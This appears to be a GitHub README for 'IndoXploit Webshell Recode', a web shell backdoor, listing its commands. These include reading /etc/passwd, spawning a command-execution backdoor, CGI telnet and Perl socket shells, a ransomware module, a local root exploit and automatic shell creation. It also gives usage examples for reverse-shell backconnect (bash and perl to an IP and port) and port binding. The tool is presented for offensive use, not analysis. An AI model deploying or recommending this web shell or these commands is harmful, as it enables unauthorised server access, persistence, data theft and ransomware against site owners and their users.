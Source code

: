 ## IndoXploit-Shell 
<pre>
===================================================================================================
                                    IndoXploit Webshell Recode
===================================================================================================

[+] Author: unknown
[+] Mail: orangrandom[at]proton.me
[+] Copyright © 2022 by - Flux10n

===================================================================================================
</pre>

## Command

- <b><i>Read File</i></b>
```
rf [filenane]
rf /etc/passwd
```

- <b><i>Spawn File</i></b>
```
spawn webconsole (execute command backdoor)
spawn cgitelnet1 (cgitelnet shell 1)
spawn cgitelnet2 (cgitelnet shell 2)
spawn cgipy (cgi python)
spawn soc (socket perl)
spawn rans (ransomware)
spawn adminer (adminer databese)
spawn LRE (local root exploit)
spawn fm (file manager)
spawn acs (auto create shell)
phpinfo
```

- <b><i>Jumping</i></b>
```
Usage: jumping
```

- <b><i>Spawn File</i></b>
```
Usage: idxconfig
```

- <b><i>Spawn File</i></b>
```
Usage: symlink
```

- <b><i>Krdp</i></b>
```
Usage: krdp
```

- <b><i>Logout From Shell</i></b>
```
Usage: logout
```

- <b><i>Kill Backdoor</i></b>
```
Usage: killme
```

- <b><i>Reverse Shell [Backconnect]</i></b>
```
usage: rvr bc [IP] [PORT] [TYPE]
```
Example:
```
rvr bc 127.0.0.1 1337 bash
rvr bc 127.0.0.1 1337 perl
```

- <b><i>Bind Port</i></b>
```
usage: rvr bp [PORT] [TYPE]
```
Example:
```
rvr bp 1337 perl
```

